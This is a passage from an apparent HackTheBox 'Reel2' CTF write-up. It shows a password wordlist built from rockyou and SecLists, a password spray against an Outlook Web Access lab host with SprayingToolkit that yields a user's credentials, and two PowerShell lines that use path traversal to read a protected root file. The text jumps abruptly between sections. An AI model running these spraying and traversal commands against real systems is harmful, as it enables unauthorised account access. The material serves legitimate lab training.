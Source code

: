 ```bat
cat /usr/share/wordlists/rockyou.txt | grep Summer > pass.txt

OR

grep -R Summer /usr/share/Seclists | tee pass.txt
cat pass.txt | cut -d ":" -f2 > summer.txt
```

A quick Google search for a OWA password spray tool provided me with a link to this Github project: <https://github.com/byt3bl33d3r/SprayingToolkit>.

> A blazing fast password sprayer for Lync/Skype For Business and OWA, built on Asyncio and Python 3.7

To ensure that the tool was working, I used the following command:

```bat
vagrant@ko:/opt/SprayingToolkit$ python3 atomizer.py owa 10.10.10.210 --recon
[*] Trying to find autodiscover URL
[+] Using OWA autodiscover URL: https://10.10.10.210/autodiscover/autodiscover.xml
[+] OWA domain appears to be hosted internally
[+] Got internal domain name using OWA: HTB
```

Success! Alright, now that I knew that it was working and that it detected the OWA page, I attempted to pass it the username and password lists that I previously created. The help menu for the atomizer tool seemed to have the usernames and passwords switched around so I needed to just change the order of the files as shown below:

```bat
vagrant@ko:/opt/SprayingToolkit$ python3 atomizer.py owa 10.10.10.210 /home/vagrant/Desktop/HackTheBox/Reel2/passwords.txt /home/vagrant/Desktop/HackTheBox/Reel2/usernames.txt -t 5 -i 0:0:5
[*] Trying to find autodiscover URL
[+] Using OWA autodiscover URL: https://10.10.10.210/autodiscover/autodiscover.xml
[+] OWA domain appears to be hosted internally
```

Eventually, I found a valid set of credentials:

```bat
[+] Found credentials: s.svensson:Summer2020
```

### Phishing with s.svensson

Since I knew that I had the credentials for a user, I logged into their OWA instance as shown below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Reel2/img5.png"  style="width: 80%" />
</p>


[10.10.10.210]: PS> Check-File C:\ProgramData\JEA\Desktop\root.txt
[10.10.10.210]: PS> Check-File C:\ProgramData\..\Users\Administrator\Desktop\root.txt